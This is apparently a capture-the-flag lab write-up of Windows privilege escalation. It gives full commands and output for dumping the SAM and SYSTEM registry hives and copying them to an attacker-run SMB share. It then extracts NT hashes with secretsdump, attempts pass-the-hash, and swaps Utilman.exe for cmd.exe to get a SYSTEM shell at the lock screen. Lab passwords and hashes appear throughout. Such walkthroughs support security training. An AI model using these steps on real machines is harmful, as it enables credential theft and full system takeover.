



## Exercises

### Question 1 — Using any of the three methods discussed in this task, gain access to the Administrator's desktop and collect the flag. Don't forget to input the flag at the end of this task. Get the flag on the Administrator's desktop.

My first attempt went after the `SeBackup`/`SeRestore` route, since it looked like the most direct path to the Administrator's hash.

I logged in to the lab machine via RDP as `THMBackup` (password `CopyMaster555`), opened an elevated command prompt, and checked my privileges:

```cmd
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

**Breakdown:**

- `whoami` prints identity information about the current user
- `/priv` restricts that output to the privileges currently assigned to the account

With `SeBackupPrivilege` and `SeRestorePrivilege` confirmed as available, I dumped the SAM and SYSTEM registry hives:

```cmd
C:\Windows\system32>reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\Windows\system32>reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

**Breakdown:**

- `reg save <hive> <path>` exports the named registry hive to a file at the given path
- `hklm\system` and `hklm\sam` are the two hives being exported — SYSTEM holds the boot key needed to decrypt SAM's password hashes

On my Kali machine, I stood up a simple SMB share to receive the files:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ mkdir /tmp/share

┌──(—REDACTED—㉿kali)-[~]
└─$ cd /tmp/share

┌──(—REDACTED—㉿kali)-[/tmp/share]
└─$ impacket-smbserver public -smb2support -username THMBackup -password CopyMaster555 /tmp/share

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
```

**Breakdown:**

- `mkdir /tmp/share` creates the local folder that will back the share
- `impacket-smbserver` starts a lightweight SMB server
- `public` is the name given to the share
- `-smb2support` enables SMB2 protocol support, for compatibility with the Windows client
- `-username THMBackup` and `-password CopyMaster555` set the credentials a connecting client must authenticate with — matching the Windows session already logged in as `THMBackup`
- `/tmp/share` is the local directory the share exposes

I then copied both hive files across from the Windows side to that share:

```cmd
C:\Users\THMBackup>copy C:\Users\THMBackup\sam.hive \\—REDACTED—\public\
        1 file(s) copied.

C:\Users\THMBackup>copy system.hive \\—REDACTED—\public\
        1 file(s) copied.
```

- `copy <source> \\—REDACTED—\public\` copies the named file to the `public` share hosted at that IP

Back on Kali, I confirmed both files had landed:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cd /tmp/share

┌──(—REDACTED—㉿kali)-[/tmp/share]
└─$ ls

sam.hive  system.hive
```

With both hives present, I extracted the password hashes offline:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/share]
└─$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up...
```

**Breakdown:**

- `impacket-secretsdump` extracts credential material from dumped hive files
- `-sam sam.hive` and `-system system.hive` specify the dumped SAM and SYSTEM hives
- `LOCAL` tells the tool it's working against local files rather than a live remote target

This gave me the Administrator's NT hash: `8f81ee5558e2d1205a84d07b0e3b34f5`. With that in hand, I tried a Pass-the-Hash login straight to the target:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/share]
└─$ impacket-psexec administrator@10.114.184.184 -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[-] [Errno Connection error (10.114.184.184:445)] timed out
```

This timed out. I checked whether port 445 was reachable at all:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/share]
└─$ nmap -p445 -Pn 10.114.184.184

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-12 17:00 +0200
Nmap scan report for 10.114.184.184
Host is up.

PORT    STATE    SERVICE
445/tcp filtered microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 2.58 seconds
```

**Breakdown:**

- `nmap -p445` scans only port 445 (SMB)
- `-Pn` skips host-discovery ping, in case ICMP was also being filtered on the target
- `10.114.184.184` is the target IP

`filtered` confirmed something was actively dropping the traffic rather than the port simply being closed — a firewall rule blocking inbound SMB to my Kali's address specifically, likely tied to how its network profile treated the connection. Since `psexec` depends on SMB, I checked whether WMI (which `wmiexec` uses instead) fared any better:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/share]
└─$ nmap -p135 -Pn 10.114.184.184

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-12 17:01 +0200
Nmap scan report for 10.114.184.184
Host is up.

PORT    STATE    SERVICE
135/tcp filtered msrpc

Nmap done: 1 IP address (1 host up) scanned in 2.59 seconds
```

Port 135 came back filtered as well, which ruled out `wmiexec` as a workaround from the same machine — the block wasn't specific to SMB, it looked like inbound access from outside THM's own network was being restricted generally. Since the AttackBox sits inside THM's own network rather than reaching in from my home connection, I switched to it and tried `psexec` again from there:

```shell
root@ip-10-114-91-76:/opt/impacket/examples# python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.114.184.184

Traceback (most recent call last):
  File "/opt/impacket/examples/psexec.py", line 32, in <module>
    from six import PY3
ModuleNotFoundError: No module named 'six'
```

The AttackBox's Impacket install was missing the `six` Python dependency, so even past the network issue, this path had another blocker. Rather than chasing down the AttackBox's Python environment, I abandoned the `SeBackup`/`SeRestore` route and switched to `SeTakeOwnership` instead.

I logged in to the lab machine via RDP as `THMTakeOwnership` (password `TheWorldIsMine2022`) and checked my privileges from an elevated prompt:

```cmd
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

I took ownership of `Utilman.exe`:

```cmd
C:\Windows\system32>takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".
```

- `takeown /f <path>` takes ownership of the specified file

Then granted myself full control over it:

```cmd
C:\Windows\system32>icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: C:\Windows\System32\Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

- `icacls <path> /grant THMTakeOwnership:F` grants my own account Full Control (`F`) over the file, now that I own it

And replaced it with a copy of `cmd.exe`, confirming the overwrite prompt:

```cmd
C:\Windows\system32>copy cmd.exe utilman.exe
Overwrite utilman.exe? (Yes/No/All): Yes
        1 file(s) copied.
```

I locked the screen and triggered the Windows Ease of Access option from the sign-in screen's menu:



This launched `utilman.exe` — now really `cmd.exe` — directly over the lock screen, next to the `THMTakeOwnership` account tile and password field:



The window printed an odd message on launch — `The system cannot find message text for message number 0x2350 in the message file for Application.` and `Not enough memory resources are available to process this command.` — but the prompt itself still worked fine underneath that. Running `whoami` confirmed it was running as SYSTEM:

```cmd
C:\Windows\system32>whoami

nt authority\system
```



With a SYSTEM shell confirmed, I navigated to the Administrator's desktop and read the flag:

```cmd
C:\Users\Administrator\Desktop>type flag.txt

—REDACTED—
```


**Answer:** `—REDACTED—`